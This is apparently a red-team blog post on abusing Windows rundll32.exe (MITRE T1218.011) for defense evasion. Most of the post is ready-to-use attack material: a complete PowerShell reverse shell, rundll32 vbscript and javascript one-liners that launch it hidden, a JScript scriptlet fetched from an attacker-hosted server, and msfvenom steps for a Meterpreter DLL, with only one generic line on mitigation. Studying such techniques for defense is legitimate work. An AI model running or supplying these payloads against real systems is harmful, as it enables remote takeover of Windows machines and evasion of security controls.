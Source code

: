 ```yaml
---
title: RUNDLL32
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, rundll32]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.011`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# RUNDLL32
***rundll32.exe*** Is a windows utility that Loads and runs 32-bit dynamic-link libraries (DLLs).Adversaries may abuse rundll32.exe to proxy execution of malicious code.

# Exploitations

## Command Prompt

### Execute VBscript To Invoke Calculator

***Execute the below commmand to invoke calculator***
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("calc.exe"),0)

```
*invoking calculator*
![vbscalc](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllcalc.png)

### Execute VBscript To Get Reverse Shell

To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command

> `rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file [path/to/your/file.ps1]"":"),0)`

*Executing rev.ps1 to get a reverse shell*
```batch
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("powershell -w Hidden -file rev.ps1"":"),0)

```
![vbsrevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevwin.png)

***Getting reversh shell***
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

### Execute Javascript To Get Reverse Shell

To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.42.0.1\',10000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```
Command

> `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:[file_url]").Exec();`

*executing rundll32 to get reverse shell*
```batch
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://10.42.0.1/exploit.sct").Exec();

```

![rundll32win](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundlljsrevwin.png)

*getting reversh shell*

![rundll32](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllvbsrevkali.png)

## Metasploit 

### Generating .dll Exploit With Msfvenom

> `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[port] -f dll -o [file_name.dll]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 -f dll -o exploit.dll
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of dll file: 8704 bytes
Saved as: exploit.dll

┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ ls
exploit.dll

```

### Getting Meterpreter Shell

*executing rundll32 in windows*

command

> `rundll32 shell32.dll,Control_RunDLL [dll_file_path]`

```batch
rundll32 shell32.dll,Control_RunDLL C:\Users\IEUser\Desktop\exploit.dll
```
![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmetawin.png)

*setting metasploit listener, getting reverse shell*

![rundllmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

# Mitigations

- Use capabilities to detect and block conditions that may lead to or be indicative of a software exploit occurring

# References

- [https://atomicredteam.io/defense-evasion/T1218.011/](https://atomicredteam.io/defense-evasion/T1218.011/)
- [https://attack.mitre.org/techniques/T1218/011/](https://attack.mitre.org/techniques/T1218/011/)
- [https://attack.mitre.org/mitigations/M1050/](https://attack.mitre.org/mitigations/M1050/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32)
- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)

